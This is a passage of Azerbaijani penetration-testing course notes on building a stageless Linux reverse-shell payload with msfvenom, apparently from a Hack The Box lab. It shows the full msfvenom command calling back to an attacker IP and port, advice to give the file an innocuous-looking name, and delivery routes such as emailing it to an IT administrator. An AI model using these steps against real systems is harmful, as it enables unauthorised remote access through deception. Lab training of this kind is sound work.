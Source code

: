 ### Mərhələsiz Payload Hazırlamaq

İndi MSFvenom ilə sadə bir mərhələsiz payload hazırlayaq və əmri təhlil edək.

#### Hazırlamaq

```bash
nijatmansimov@htb[/htb]$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
```

| Hissə | Təsvir |
| :--- | :--- |
| **msfvenom** | Payloadı hazırlamaq üçün istifadə olunan aləti müəyyən edir. |
| **-p** | Bu **seçim** MSFvenom-un bir payload yaratdığını göstərir. |
| **linux/x64/shell\_reverse\_tcp** | **Linux** 64-bit **mərhələsiz** payloadı müəyyən edir ki, bu da TCP əsaslı reverse shell (shell\_reverse\_tcp) başladacaq. |
| **LHOST=10.10.14.113 LPORT=443** | İcra edildikdə, payload müəyyən edilmiş IP ünvanına (10.10.14.113) müəyyən edilmiş portda (443) geri zəng edəcək. |
| **-f elf** | `-f` bayrağı yaradılan ikilik faylın formatını müəyyən edir. Bu vəziyyətdə, bu bir **.elf faylı** olacaq. |
| **\> createbackup.elf** | **.elf** ikilik faylını yaradır və faylı `createbackup` adlandırır. Biz bu faylı istədiyimiz kimi adlandıra bilərik. İdeal olaraq, biz onu diqqəti cəlb etməyən və/və ya kiminsə yükləyib icra etmək istəyəcəyi bir şey adlandırarıq. |

#### Mərhələsiz Payloadın İcrası

Bu məqamda, payload hücum qutumuzda yaradılıb. İndi o payloadı hədəf sisteminə çatdırmaq üçün bir yol inkişaf etdirməliyik. Bunun edilə biləcəyi saysız-hesabsız yollar var. Budur bəzi ümumi yollar:

  * Fayl əlavə edilmiş **e-poçt mesajı**.
  * Veb saytda **yükləmə linki**.
  * Bir Metasploit exploit modulu ilə birləşdirilmiş (bunun üçün yəqin ki, artıq daxili şəbəkədə olmalıyıq).
  * Yerində (onsite) penetrasiya testinin bir hissəsi olaraq **flash drive** vasitəsilə.

Fayl o sistemdə olduqdan sonra, o da **icra edilməlidir**.

Bir anlıq təsəvvür edin: hədəf maşın, bir İT administratorunun şəbəkə cihazlarını idarə etmək üçün istifadə etdiyi (konfiqurasiya skriptlərini hosting etmək, routerlərə və switchlərə daxil olmaq və s.) bir Ubuntu qutusudur. Biz onlara göndərdiyimiz bir e-poçtda fayla klikləməyə nail ola bilərik, çünki onlar bu sistemi ehtiyatsızcasına şəxsi kompüter və ya iş stansiyası kimi istifadə edirdilər.

#### Ubuntu Payloadı

Uğurlu icra edildikdən sonra hücum qutusunda bağlantını tutmaq üçün bir listenerimiz hazır olacaq.

<img width="1024" height="668" alt="image" src="https://github.com/user-attachments/assets/33a7ad9b-c802-4576-b12d-4d3be41213f8" />

#### NC Bağlantısı
